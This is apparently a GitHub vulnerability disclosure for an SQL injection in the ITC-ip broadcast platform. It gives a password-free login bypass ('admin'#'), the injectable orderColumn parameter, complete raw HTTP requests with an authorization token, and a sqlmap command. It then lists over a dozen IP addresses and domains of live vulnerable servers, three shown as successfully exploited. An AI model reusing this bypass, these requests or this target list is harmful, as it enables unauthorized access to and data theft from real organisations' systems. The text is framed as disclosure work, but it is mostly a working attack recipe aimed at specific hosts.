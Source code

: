 sql injection exists in ITC-ip service broadcast platform of Guangdong Paulan Electronics Co., LTD

Vulnerability Description 

There is sql injection in the background of ITC-ip service broadcasting platform of Guangdong Baolun Electronics Co., LTD. Attackers can obtain sensitive database information through this vulnerability

Certificate of Company assets

![](https://github.com/chennuo17/cve/blob/main/picture/wps1.jpg)

https://pa.itc-pa.cn/

Affects Version: v2.0

Influence routing:

/api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName=

injection parameter:orderColumn

Space mapping： icon_hash="-568806419"

![](https://github.com/chennuo17/cve/blob/main/picture/wps2.jpg)

Note: The vulnerability needs to log in to the background to obtain valid credentials to be carried out, you can use the front desk universal password    -admin‘#  Password-free access

Example I

 

 

http://60.170.49.111:81/login

use     admin’#/123456   Login successfully

![](https://github.com/chennuo17/cve/blob/main/picture/wps3.jpg)

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 60.170.49.111:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![](https://github.com/chennuo17/cve/blob/main/picture/wps4.jpg)

Instance II

[***\*http://110.53.52.41:82/login\****](http://110.53.52.41:82/login)

use admin'# / 123456 Login successfully

![](https://github.com/chennuo17/cve/blob/main/picture/wps5.jpg)

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

***\*GET /api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName= HTTP/1.1\****

***\*Host: 110.53.52.41:82\****

***\*Accept: application/json, text/plain, \*/\*\****

***\*X-Requested-With: XMLHttpRequest\****

***\*authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k\****

***\*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0\****

***\*Referer: http://60.170.49.111:81/monitor/map\****

***\*Accept-Encoding: gzip, deflate\****

***\*Accept-Language: zh-CN,zh;q=0.9\****

***\*Connection: close\****

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![](https://github.com/chennuo17/cve/blob/main/picture/wps6.jpg)

***Instance Ⅲ***

[***\*http://111.34.17.42:81/login\****](http://111.34.17.42:81/login)

*use admin'# / 123456 Login successfully*

![](https://github.com/chennuo17/cve/blob/main/picture/wps7.jpg)

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 111.34.17.42:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

***\*python sqlmap.py -r ../url.txt --batch\****

![](https://github.com/chennuo17/cve/blob/main/picture/wps8.jpg)

 

Other cases

\4. http://221.182.106.148:81/

\5. http://218.206.129.237:81/

\6. http://120.236.127.42:81/

\7. http://118.121.231.180:8181/login

\8. http://blojj2.sfsyxx.cn:81/login

\9. http://60.170.49.111:81/login

\10. http://58.42.97.3:81/login

\11. http://47.109.137.239/login

\12. http://61.157.98.107:8025/audio/media

\13. http://qjjsxy.com:81/login

 

# CNVD certificate number

CNVD-YCGW-202405084002


